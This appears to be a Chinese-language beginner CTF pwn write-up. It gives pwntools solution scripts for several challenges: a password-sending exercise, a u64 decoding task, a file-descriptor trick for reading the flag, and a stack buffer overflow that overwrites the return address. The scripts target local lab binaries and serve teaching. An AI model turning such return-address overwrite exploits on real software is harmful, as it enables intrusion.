 # **0 二进制漏洞审计入门指北**

```python
from pwn import *
context(arch='amd64', os='linux', terminal=['wt.exe', 'wsl'])
context.log_level='debug'
# p = process('./pwn')
p = remote('127.0.0.1',30096)
# p = gdb.debug('./pwntools','b bypass')
p.sendline(b'114511')
payload = p32(0xdeadbeef)
payload += b'shuijiangui'
p.sendafter(b'me the password.',payload)
p.interactive()
```

这个题主要是希望大家能在没有了解pwn的情况下，能先去知道怎么和程序交互以及我们在pwn的过程中一个基本的流程是怎么样的，通过逆向题目所给的可执行文件，就能发现这里都需要发送一些什么，然后scanf以及read在读取的时候都有什么区别，基本没有什么难度。

# ez_u64

pwntools的u64可以将小端序bytes转为整形

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=process('./pwn')
def itob(x):
    return str(x).encode()
p.recvuntil('hint.')
code=p.recv(8)
ans=u64(code)
log.debug(ans)
p.sendline(itob(ans))

p.interactive()
```

# find_it

初始fd：0，1，2分配给了stdin,stdout,stderr。新的stdout从3开始分配。open flag后，由于关闭了1，flag会被分配到1。依次输入3,./flag,1即可。

# EZtext

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug', terminal=['wt.exe','wsl'])
p = process('./pwn')
# p = remote('127.0.0.1',35772)
ret = 0x40101a
# p = gdb.debug('./pwn', 'b main')
p.sendline(b'32')
payload = 16 * b'a' + p64(ret) + p64(0x4011B6)
p.send(payload)
p.interactive()
```
